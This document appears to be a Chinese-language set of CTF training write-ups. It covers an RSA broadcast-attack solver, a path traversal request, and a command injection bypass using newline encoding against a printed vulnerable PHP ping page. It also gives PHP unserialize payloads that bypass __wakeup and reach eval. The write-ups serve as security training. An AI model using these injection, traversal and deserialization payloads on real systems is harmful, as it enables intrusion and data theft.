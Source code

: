 ## broadcast Problem ID: 52

https://www.ruanx.net/rsa-solutions/  

低加密指数广播攻击

原题：
```python
from Crypto.Util.number import *
import gmpy2
from secret import flag

m = bytes_to_long(flag)
assert m.bit_length() < 240

e = 11
n = [getPrime(256) * getPrime(256) for _ in range(12)]

def enc(i):
    return gmpy2.powmod(m, e, n[i])

with open('enc.txt', 'w') as f:
    for x in range(12):
        f.write(f'{enc(x)} {n[x]}\n')
```

dec:
```python
from Crypto.Util.number import *
import gmpy2
# 中国剩余定理
def crt(n, c):
    N = 1
    for i in n:
        N *= i
    result = 0
    for i in range(len(n)):
        M = N // n[i]
        result += c[i] * M * gmpy2.invert(M, n[i])
    return result % N
res=crt(n, c)
# res 开11次方
res, flag = gmpy2.iroot(res, 11)
print(flag)
print(res)
# res转ascii
print(long_to_bytes(res))
```


---

## 音乐会 Problem ID: 2

![alt text](assets/train2024/image.png)

`GET http://train2024.hitctf.cn:26130/get_resource.php?path=../../../flag.txt`

![alt text](assets/train2024/image-1.png)


## ex-pingping Problem ID: 4

综合过滤练习
组合拳

过滤了 ; 符号，翻看URL编码，%0a可以实现换行，用%0a代替 ; 符号。

http://train2024.hitctf.cn:26846/?ip=%0a env > 1.txt

http://train2024.hitctf.cn:26846/?ip=%0a more index.php 

```php
::::::::::::::
index.php
::::::::::::::
<?php

$res = FALSE;
$no = FALSE;
$waf = FALSE;

if (isset($_GET['ip'])) {
    if (preg_match('/[|&;*]/',$_GET['ip'])) {
        $waf = TRUE;
    }
    else if (preg_match('/base|cat|tac|head|tail|flag/i',$_GET['ip'])) {
        $no = TRUE;
    }
    else {
        $cmd = "ping -c 4 {$_GET['ip']}";
        exec($cmd, $res);
    }
}

?>

<!DOCTYPE html>
<html>
<head>
<script src="https://cdn.jsdelivr.net/npm/jquery@3.7.1/dist/jquery.min.js"></script>
<link rel="stylesheet" type="text/css" href="https://cdn.jsdelivr.net/npm/fomantic-ui@2.9.3/dist/semantic.min.css">
<script src="https://cdn.jsdelivr.net/npm/fomantic-ui@2.9.3/dist/semantic.min.js"></script>
<title>pingping</title>
<style>
    body > .grid {
      height: 100%;
      margin-top: 100px;
    }
    .column {
      max-width: 450px;
    }
    .img1 {
        height: 250px;
        width: 275px;
    }
</style>
</head>
<body>

<div class="ui middle aligned center aligned grid">
<div class="column">

<h2 class="ui teal image header">
    <div class="content">
        Ping一下吧？
    </div>
</h2>

<form action="#" method="GET" class="ui large form initial">
    <div class="ui stacked segment">
    <div class="field">
        <input type="text" id="ip" name="ip" placeholder="IP">
    </div>
    <input type="submit" value="Ping" class="ui primary button">
</div>
</form>

<pre>
<?php
if ($waf) {
    echo "No you bad hacker...<br>";
}
else if ($no) {
    echo "想要flag?<br>";
    echo "<img class='img1' src=/img/agms.jpg>";
}
else if ($res) {
    foreach ($res as $line) {
        if (preg_match('/[{}]/',$line)) die("等等，这输出有问题，你不许读！<br><img src=/img/ask.jpg>");
        echo $line.'<br>';
    }
}
?>
</pre>
</div>
</div>
</body>
</html>
```



绕过应用举例

**当反序列化字符串中，表示属性个数的值⼤于真实属性个数时，会绕过 __wakeup 函数的执⾏。**

漏洞影响范围
PHP5 < 5.6.25
PHP7 < 7.0.10

标准序列化结果

`O:4:"User":2:{s:8:"username";s:4:"Lxxx";s:8:"password";s:4:"lxxx";}`

将2改为3 绕过__Wakeup魔法函数

`O:4:"User":3:{s:8:"username";s:4:"Lxxx";s:8:"password";s:4:"lxxx";}`

————————————————

                            版权声明：本文为博主原创文章，遵循 CC 4.0 BY-SA 版权协议，转载请附上原文出处链接和本声明。
                        
原文链接：https://blog.csdn.net/eason612/article/details/130607125



## 反序列化

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
class evil{
    public $cmd;
    public $a;
    public function __destruct(){
        eval($this->cmd.'114514');
    }
}

if(!preg_match('/^[Oa]:[\d]+|Array|Iterator|Object|List/i',$_GET['Pochy'])){
    unserialize($_GET['Pochy']);
} else {
    die("hacker!");
}
```

`O:4:"evil":1:{s:3:"cmd";s:9:"echo 1;//";}`

`C:8:"SplStack":44:{O:4:"evil":1:{s:3:"cmd";s:12:"phpinfo();//";}`

>很经典不能O,a开头，那我们就C开头，不能有ArrayObject，啧，之前ctfshow学到的没用了，最终发现SplStack这个类也能用，然后就是绕__destruct，也就是只能使用[A-Za-z_\(\)]，最后带个; 怎么把givemegirlfriend! 除掉是个问题，__halt_compiler(); 可以中断编译器的执行，不让eval解析后面的就行了，这里没法用引号，所以得构造无参rce，exp如下：

https://www.cnblogs.com/F12-blog/p/17472787.html

